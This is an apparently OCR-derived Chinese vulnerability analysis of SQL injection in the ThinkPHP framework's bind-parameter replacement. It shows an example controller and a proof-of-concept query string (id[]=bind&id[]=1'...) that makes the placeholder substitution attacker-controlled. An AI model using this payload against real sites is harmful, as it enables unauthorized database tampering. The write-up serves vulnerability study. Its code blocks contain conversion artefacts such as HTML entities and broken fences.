 这里有处对$this->queryStr进行字符替换的操作：

```
$this->queryStr =   strtr($this->queryStr,array_map(function($val) use($that){ return '''.$that->escapeString($val).'''; },$this->bind)); 
```

具体是什么，我这里写了一个实例：

常规的跟新数据库用户信息的操作：

Application/Home/Controller/UserController.class.php

```
<?php

namespace HomeController;

use ThinkController;

class UserController extends Controller {

```
public function index(){

    $User = M("member");
    $user['id'] = I('id');
    $data['money'] = I('money');
    $data['user'] = I('user');
    $valu = $User-&gt;where($user)-&gt;save($data);
    var_dump($valu);
} 
``` `}` 
```

根据进来的id更新用户的名字和钱，构造一个简单一个poc

id[]=bind&id[]=1’&money[]=1123&user=liao
当走到execute函数时sql语句为：

```
UPDATE `member` SET `user`=:0 WHERE `id` = :1' 
```

然后$that = $this

![image](img/a5cef769ba87e44c811b9201531a87ac.png)

然后下面的替换操作是将”:0”替换为外部传进来的字符串，这里就可控了。

![image](img/ddc048730cdf072ac364127f07562aca.png)
